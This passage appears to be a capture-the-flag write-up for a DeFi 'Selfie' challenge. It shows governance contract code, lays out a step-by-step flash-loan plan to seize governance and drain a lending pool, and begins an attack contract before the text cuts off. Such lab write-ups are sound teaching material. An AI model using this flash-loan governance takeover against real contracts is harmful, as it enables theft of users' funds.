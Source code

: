 ```solidity
        GovernanceAction memory actionToExecute = _actions[actionId];
        
        if (actionToExecute.proposedAt == 0) // early exit
            return false;

        uint64 timeDelta;
        unchecked {
            timeDelta = uint64(block.timestamp) - actionToExecute.proposedAt;
        }

        return actionToExecute.executedAt == 0 && timeDelta >= ACTION_DELAY_IN_SECONDS;
    }

    function _hasEnoughVotes(address who) private view returns (bool) {
        uint256 balance = _governanceToken.getBalanceAtLastSnapshot(who);
        uint256 halfTotalSupply = _governanceToken.getTotalSupplyAtLastSnapshot() / 2;
        return balance > halfTotalSupply;
    }
}
```

## Solution

The vulnerability here is pretty easy to spot. To get all the money from the vault we will need to call the emergencyExit() function of the pool. This function only works if it's called from the governance, so we will need to get the governance to call this function. The way to do this is by queueing this call as an action, holding more than half of the tokens at that time, waiting for 2 days, and then executing the action. So the game plan is:

1. Take out a flash loan.
2. Take a manual snapshot using the snapshot() function of the token.
3. Call the queueaction with the emergencyExit() function of the pool.
4. Now our balance at the last snapshot is checked, which is giant thanks to the flash loan.
5. Our action gets queued.
6. We repay the loan.
7. We wait for 2 days until the grace period is finished.
8. We call to execute and receive all their sweet money.

I once again wrote an attack contract that does this for us:

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

import "./ISimpleGovernance.sol";
import "./SelfiePool.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";

contract Attack_Selfie is IERC3156FlashBorrower{
    address owner;
    SelfiePool pool;
    ISimpleGovernance gov;
    uint256 max_loan;

    constructor() 
    {
        owner = msg.sender;
    }

    function letsAGo(address _pool, address _gov) public
    {
        pool        = SelfiePool(_pool);
        gov         = ISimpleGovernance(_gov);
```